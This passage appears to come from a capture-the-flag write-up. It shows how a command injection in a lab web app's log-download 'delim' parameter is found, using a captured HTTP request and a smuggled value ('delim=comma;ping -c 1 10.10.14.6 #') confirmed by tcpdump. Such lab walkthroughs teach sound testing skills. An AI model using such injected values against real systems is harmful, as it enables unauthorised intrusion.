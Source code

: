 ### Identify Command Injection

I got access to the source code for the site, but this command injection can
also be identified without it. I’ll show how I would approach it both ways.

#### Without Source

The first thing I want to look at it the request when I request logs:

    
    
    POST /logs.php HTTP/1.1
    Host: 10.10.11.104
    User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 11
    Origin: http://10.10.11.104
    DNT: 1
    Connection: close
    Referer: http://10.10.11.104/file_logs.php
    Cookie: PHPSESSID=ee9qjj6lpu5v393dq8lu7hf8hf
    Upgrade-Insecure-Requests: 1
    
    delim=comma
    

The other options submit `space` and `tab`. What happens when I submit
something not in the list? I’ll send this to Burp Repeater and change it to
0xdf. The response is the same as `comma`:

![image-20210716165042097](https://0xdfimages.gitlab.io/img/image-20210716165042097.png)

I don’t recognize that log format, but the fact that the page is returning it
with different delimiters means that likely some text pattern matching and
rearranging is going on. While this can be done naturally in PHP, it’s not
that easy, compared to Bash. It is possible that the programmer is reading the
file and making the manipulations in PHP, but it’s also possible the author is
using `system` or `shell_exec` to call something outside PHP.

I’ll try using a `;` to add a command to the parameter:

    
    
    delim=comma;ping -c 1 10.10.14.6 #
    

I’ll open `tcpdump` and then send this with Burp, and ICMP comes back:

    
    
    oxdf@parrot$ sudo tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    17:02:14.962560 IP 10.10.11.104 > 10.10.14.6: ICMP echo request, id 2377, seq 1, length 64
    17:02:14.962593 IP 10.10.14.6 > 10.10.11.104: ICMP echo reply, id 2377, seq 1, length 64
    